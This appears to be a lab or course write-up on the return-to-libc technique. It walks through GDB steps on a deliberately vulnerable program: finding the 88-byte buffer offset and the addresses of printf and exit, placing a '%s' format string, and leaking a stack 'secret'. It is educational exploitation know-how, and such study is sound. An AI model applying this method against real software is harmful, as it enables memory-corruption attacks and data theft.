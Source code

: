 # Return to libc

Return to libc requires an additional flag `-fno-stack-protector` when compiling.

## Creating the stack frame for libc

We want to place the address of a libc function below $ebp, at the return address, such that the libc instruction is loaded into $eip after the return address is consumed.

When the libc instruction is executed, we need to convince the libc function that it was called regularly.

```
|      buffer      |
|       ...        |
|     old ebp      |
|   return addr    | <- &libc
|      arg0        | <- fake return addr
|      arg1        | <- arg0
```

# vul

## Debugging

First, we need to be in a function's execution stack. To do so, set a breakpoint within the function and run the program.

### Offset between &buffer and $ebp

We first need to get &buffer and $ebp to determine how much padding we need to reach the bottom of the stack frame.

```
print &buf
> 0xffffd350
print $ebp
> 0xffffd3a8
```

`$ebp -  &buffer = 88`. Therefore, we need an 88-byte padding.

### Address of printf

```
print &printf
> 0xf7e39c60
```

### Fake return address

We can use either `main` or `exit` to exit the program after the libc function returns.

```
print &exit
> 0xf7e19060
```

### Format string address

We can search libc for instances of "%s".

```
info proc map
> <displays all mapped memory address spaces in the current context>

find <start_addr>, <end_addr>, "<pattern>"
> <list of addresses with "<pattern>" value>
```

Then, we can use any of these addresses as the first argument for the format string.

#### No pattern found

If the pattern cannot be found, we will have to write the value ourselves. For `printf`, we can target the memory address 1 word below the current address, or 5 words below $ebp, then write our format string to that location.

`$ebp + 5 words = 0xffffd3bc`

* We should not write our data above because the null byte at the end of the format string will stop our attack.

### Address of secret

```
info stack
> <list of stack frames>
frame 1
> #1 0x080485a5 in main () at vul.c:18
print &secret
> 0xffffd443
```

### Format string contents

Lastly, we are at the address `$ebp + 5 words`. We simply have to write our format string.

```
"%s\n"
```

